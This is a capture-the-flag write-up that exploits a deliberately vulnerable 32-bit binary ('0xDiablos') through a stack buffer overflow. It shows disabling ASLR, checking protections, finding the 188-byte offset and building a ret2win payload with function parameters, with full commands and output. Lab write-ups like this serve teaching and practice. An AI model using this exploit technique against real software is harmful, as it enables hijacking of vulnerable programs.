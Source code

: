 ```bash
└─# echo 0 > /proc/sys/kernel/randomize_va_space
```

Using gdb with the peda extension, I checked the security features of the binary:

```bash
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : disabled
RELRO     : Partial
```

I set a breakpoint at the vuln function and ran the program to the point where gets is called. By experimenting with input lengths, I determined that the buffer overflow occurs after 188 characters:

```bash
└─# python3 -c "import sys; sys.stdout.buffer.write(b'A' * 188 + b'B' * 4)"                   
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB 
```

Replacing the four Bs with the address of the flag function resulted in the following:

```bash
└─# echo $(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 188 + b'\xe2\x91\x04\x08')") | ./vuln 
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA 
Hurry up and try it on the server side.
```

Trying this on the server side did not yield immediate results.

Further static analysis using Ghidra provided a clearer view of the flag function, which takes two parameters and reads flag.txt. If certain conditions are met, it prints the flag's contents.

![image](https://github.com/user-attachments/assets/e77182d1-cf56-4738-ba04-de9f9e66979e)

I created a flag.txt file with "Hello" as its content and prepared a return-to-libc attack payload, where `0x080491e2` is the flag function address, `0xdeadbeef` the param 1 value address and `0xc0ded00d` the param 2 value address notice with Ghidra:

```bash
└─# echo Hello > flag.txt                                                                              
└─# echo $(python3 -c "import sys; sys.stdout.buffer.write(b'A' * 188 + b'\xe2\x91\x04\x08' + b'DUMY' + b'\xef\xbe\xad\xde' + b'\x0d\xd0\xde\xc0')") | ./vuln                
You know who are 0xDiablos: 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA   AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAADUMYﾭ 
Hello
zsh: done                echo  | 
zsh: segmentation fault  ./vuln
```

